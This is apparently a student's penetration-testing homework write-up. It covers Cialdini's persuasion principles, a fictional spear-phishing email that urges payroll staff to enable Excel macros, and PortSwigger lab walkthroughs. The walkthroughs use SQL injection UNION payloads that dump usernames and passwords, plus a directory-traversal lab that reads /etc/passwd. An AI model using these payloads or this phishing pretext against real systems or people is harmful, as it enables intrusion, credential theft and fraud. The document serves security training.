

# h4 Sequel fish
*Social Engineering and Spear Phising.   
More about SQLi and SQLi UNION Attacks.   
PortSwigger Labs and HTB*   

Host:  
`I used Debian 11, Lenovo Thinkpad E15`
```bash
~$ lsb_release -a
No LSB modules are available.
Distributor ID:	Debian
Description:	Debian GNU/Linux 11 (bullseye)
Release:	11
Codename:	bullseye
```

All these assignments were done with Kali Linux in VirtualBox:     
```bash
──(kali🥦kali)-[~]
└─$ grep VERSION /etc/os-release
VERSION="2023.1"
VERSION_ID="2023.1"
VERSION_CODENAME="kali-rolling"
                                                                                                                    
┌──(kali🥦kali)-[~]
└─$ uname -a
Linux kali 6.1.0-kali7-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.20-1kali1 (2023-03-22) x86_64 GNU/Linux
```
---
**[Tero Karvinen himself, in the course lecture](https://terokarvinen.com/2023/tunkeutumistestaus-2023-kevat/) has been used   as a source for these assignments**   

## x) Lue ja tiivistä (Tässä x-alakohdassa ei tarvitse tehdä testejä tietokoneella, vain lukeminen tai kuunteleminen ja tiivistelmä riittää. Tiivistämiseen riittää muutama ranskalainen viiva. Cheatsheetistä voit poimia muutaman itselle relevantin kohdan.)

**Cialdinis Principles of Persuation:**

Sources used:
- [Rober B. Cialdini, Ph.D. - Influence](https://learning.oreilly.com/library/view/influence/9780061899874/)   
- [Influence At Work: The Science Of Persuation](https://www.influenceatwork.com/7-principles-of-persuasion)   
- [Brady Evan Walker: Bringing it Together: Cialdini’s 7th Principle of Influence](https://medium.com/@Brady.Evan.Walker/bringing-it-together-cialdinis-7th-principle-of-influence-94128816ff67)
- [Roger Dooley: Cialdinis 7th Principle](https://www.neurosciencemarketing.com/blog/articles/cialdini-7th-unity.htm)

**The Principles:**

1. Reciprocity 
	- People are more likely to comply with requests from someone they owe something to or who has done something for them.
 
 2. Commitment and Consistency
	 - People tend to behave in ways that are consistent with their previous actions and commitments.

3. Social Proof / Consensus:
	- People tend to follow the actions of others, especially in ambiguous situations.

4. Liking
	- People are more likely to comply with requests from someone they like or perceive as similar to themselves.
  
5. Authority
	- People are more likely to comply with requests from someone who is seen as an authority figure.

6. Scarcity
	- People tend to value things more when they are limited or in short supply.

Additional seventh principle:    

7. Unity
	- Focuses on emphasizing similarities between the persuader and the person being persuaded, such as shared interests, values, beliefs, or background.

Similarities:   
*Liking is based on a shared attribute, Unity on a shared identity*

---
**PortSwigger: [SQL injection UNION attacks](https://portswigger.net/web-security/sql-injection/union-attacks)**    
- Article explains the SQLi Union attacks.
- SQL injection attack uses UNION operator to combine the results of two or more SELECT statements to:    
	- Extract sensitive data from the database.
	- Modifying data.
	- Bypassing authentication.

Few examples of common usage of UNION attacks:
- Determinining the number of columns required in the UNION attack:
```bash
' UNION SELECT NULL,NULL,NULL--
```
In this example, the query returned three columns (the number of NULL:s used).

- After the number of columns is determined, to find columns with a useful data type, we can modify the query to test each `NULL` with a string:

```bash
' UNION SELECT NULL,NULL,'string'--
```

If this query returned a error, the data type of a column was not compatible with string data. If it returned some additional content, it worked and it can be used to try to retrieve some sensitive or relevant data.

*Very useful tip, quoted straight from the article, as a note to myself:*
```sql
On Oracle, every `SELECT` query must use the `FROM` keyword and specify a valid table. There is a built-in table on Oracle called `dual` which can be used for this purpose. So the injected queries on Oracle would need to look like:
    
    `' UNION SELECT NULL FROM DUAL--`
```

---
**PortSwigger: [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)** 
- Article gives a nice examples of common SQLi attack queries.
- Gives a nice guide about how different databases, use different queries.   

Useful examples about using determining the database type and version,

```sql
Oracle:
SELECT banner FROM v$version   SELECT version FROM v$instance

Microsoft:
SELECT @@version

PostgreSQL:
SELECT version()

MySQL:
SELECT @@version
```

Also worth mentioning:   
Using comment to kind of like remove a portion of the original query.
```bash
Oracle: --comment

Microsoft: --comment or /*comment*/

PostgreSQL: --comment or /*comment*/

MySQL: #comment or -- comment or /*comment*/
```

---
## a) Kalassa. Laadi keihäskalasteluviesti (spear phising) kuvitteelliselle yritykselle. 
- Tavoitteena on saada kohde avaamaan liitteenä oleva Excel-dokumentti ja laittamaan makrot päälle. 
- Käytä ainakin kahta Cialdinin periaatetta. 
	- Selitä, miten näitä periaatteita on sovellettu viestiisi.

*Keksi skenaario ja kohde itse. Käytä työssä vain kuvitteellisia yrityksiä ja henkilöitä. Viestiä ei lähetetä mihinkään, se tulee vain raporttiin. 
Liitteenä olevaa Excel-dokumenttia ei tarvitse tehdä, mutta jos siinä on jotain nokkelaa, voit kuvailla, mitä se olisi.*

First things first...   
I knew very little about macros in Excel, so i read quite alot of stuff to get the idea and language (Visual Basic), and wanted a script/macro to be run when something is clicked, for example i could possible use an transparent image to hide it....

But next i made a small `Hello World` thing, using LibreOffice Calc in this case.   
- New empty spreadsheet
- A "Press Here" .png image with Gimp
- `Hello World` macro, that when run, prints "Hello World" to next empty row.   
	- LibreOffice Calc -> Tools -> Macros -> Edit Macro
- Inserted the image to the spreadsheet and assign my macro to it as "Mouse Pressed"


Now i had the idea :D    

**A Spear Phising, fictional mail, to Payroll Specialists from (spoofed) IT-Team.**   
```
Hi Specialist,

I wanted to let you know that we have finalized the new Excel spreadsheet that will be extremely helpful for the payroll management process. 
We have included macros that enable easy filtering of data between sheets, saving you and your team's valuable time.

As a valued member of the payroll department, your expertise and time are crucial to the success of the company. 
That's why we designed this tool with your needs in mind, to help make your job easier and more efficient. 
We are confident that once you try it out, you'll see just how much it can improve your workflow.

The macros in this spreadsheet will allow you to perform functions that are not currently possible with our default software, 
giving us a competitive edge and making your job much easier. 
As we understand that timely and accurate payroll management is the priority, we believe, that with this tool 
our goals are achieved way faster.

We encourage you to give it a try asap, as we have got a good feedback from similar tools before from other departments.

Of course we are available to answer any questions or concerns you may have, and if there are problems, we can surely work them out together! 

Best regards,

Mr Me, IT Department
```

**Cialdini's Principles used:**

1.  Authority
	- Claims to be from a member of the IT department, which could give the impression of authority and/or the feeling of trust as its created by experts of the their field.
    
2.  Urgency
	- Convinces that the new tool is essential for efficient and accurate payroll management, creating a sense of urgency.
    
3.  Scarcity
	- Hints that the new tool could be exclusive, as there are tasks it can do, that the default software used, can not, creating a sense of scarcity and desirability.
    
4.  Social proof: 
	- Suggests that someone has used similar tool and found it to be helpful.

5. Liking/Unity:
	- Builds a trust and similarities.
	- Changes to "We/Us"

---
## PortSwigger labs
*In each lab, before i started, i had Firefox setted up with Zap or Burp proxy.*    

### b) SQL injection vulnerability allowing login bypass.


After accessing the lab, the good old "Shop" from previous lab, opened up.  


I went straight to "My account"    
Now i set Zap to intercept the traffic, and tried to login :   
Username: `administrator`   
Password `imcomingin`

Interception:   


As this was an easy level lab and the request looked pretty straight forward, i werent going to use the proxy but went straight to the login form to try the injections.   

I tried the same logins, but commented out stuff after the `administrator`   


**And done**


---
### c) SQL injection UNION attack, determining the number of columns returned by the query.


Same kind of shop, with little difference in listing stuffs.   
I approached this by clicking the "Clothing, shows and accessories" which gave me this URL:    
web-security-academy.net/filter?category=Clothing%2c+shoes+and+accessories

I tested the NULLS
```sql
'+UNION+SELECT+NULL--
'+UNION+SELECT+NULL,NULL--
'+UNION+SELECT+NULL,NULL,NULL--
```
*When the number of nulls matches the number of columns, the database returns an additional row in the result set, containing null values in each column. ([PortSwigger - SQLI: Union attacks](https://portswigger.net/web-security/sql-injection/union-attacks))*



**Done**

---
### d) SQL injection UNION attack, finding a column containing text.


UI looked pretty much the same as in the previous lab, so it seemed it was a straight continuation, so i first tried the same thing.   
*Goal was to find the column that contains the string `1lnPyr`*

Query:   
```sql
web-security-academy.net/filter?category=Accessories'+UNION+SELECT+NULL,NULL,NULL--
```

Which worked, so next as the idea was to identify the column that is compatible with string.    

I tested it with:
```sql
web-security-academy.net/filter?category=Accessories'+UNION+SELECT+'1lnPyr',NULL,NULL--

web-security-academy.net/filter?category=Accessories'+UNION+SELECT+NULL,'1lnPyr',NULL--
```

And got it!


---
### e) SQL injection UNION attack, retrieving data from other tables.


UI, pretty much the same again, as labs before:   


I started this by making an example query, kind of "how it could look like":    
```bash
UNION SELECT username, password FROM users--
```

And as an URL i tested:   
```bash
web-security-academy.net/filter?category=Accessories'UNION+SELECT+username,+password+FROM+users--
```

Which gave me:   


I then went to the "My account" with those credentials in my clipboard, and....   


**Profit!**

---
### f) SQL injection UNION attack, retrieving multiple values in a single column.


Okay, so first i determined the amount of columns returned by query:   
```bash
web-security-academy.net/filter?category=Accessories'+UNION+SELECT+NULL,NULL--
```

Which was correct.   

Then determined which column returns a string:   
```bash
web-security-academy.net/filter?category=Accessories'+UNION+SELECT+NULL,'string'--
```

Again, correct:


Then i tested to fetch the usernames:   
```bash
web-security-academy.net/filter?category=Accessories'+UNION+SELECT+NULL,username+FROM+users--
```


Now a logical move was to determine the version and type of the database.   
I used a [cheatsheet](https://portswigger.net/web-security/sql-injection/examining-the-database) to try the different queries and found the right one.   
```sql
web-security-academy.net/filter?category=Accessories'+UNION+SELECT+NULL,version()--
```


```
PostgreSQL 12.14
```

So the final query, which i got also from the [cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) to get what i came for:   
```sql
web-security-academy.net/filter?category=Accessories'+UNION+SELECT+NULL,username||' '||password+FROM+users--
```
Where `space` is the delimiter for those two values      

And got em:   


Took the admin credentials and went to log in:    


**Profit!**

---
### g) SQL injection attack, querying the database type and version on Oracle.
   

Again the shop and some description about the goal.   


I already knew from the previous lab, how to determine the version and type.    

I didnt do all the possible steps to test the columns and strings,but went straight to test:   
```sql
web-security-academy.net/filter?category=Accessories'+UNION+SELECT+NULL,banner+FROM+v$version--
```

   


**And done!**

---
### h) Vapaaehtoinen: Mystery labs challenge. Tason voit itse valita. Monet harjoitukset sisältävät kohtia, joita ei ole erikseen opetettu kurssilla.

For this i chose the first that sounded like a fun:    
Level: Practitioner   
Category: Directory traversal   
https://book.hacktricks.xyz/pentesting-web/file-inclusion

   
   

**Objective:** Read and submit the contents of the file `/etc/passwd`.   

As the links for the items lead to for example:
```bash
web-security-academy.net/product?productId=13
```

I couldnt use that, so i went after the images paths.   


As null byte injection was mentioned:   
https://www.thehacker.recipes/web/inputs/null-byte-injection

I first tried to:   

But i have had this same problem before, and figured it by changing the response body, from Image to Text, in Zap:   


   

**And done!**

---
### i) Vapaaehtoinen: Korkaa HTB:n maalikone, retired tai kilpakone.

For this i did two:

**Easy Machine (Active):** 
- [Soccer](https://app.hackthebox.com/machines/Soccer)  

User and Root: [Proofs](https://www.hackthebox.com/achievement/machine/1229016/519)

**Easy Machine (Active + Seasonal):**    
- [MonitorsTwo](https://app.hackthebox.com/machines/MonitorsTwo)   

User and Root: [Proof](https://www.hackthebox.com/achievement/machine/1229016/539)

**Reports are kept private.**
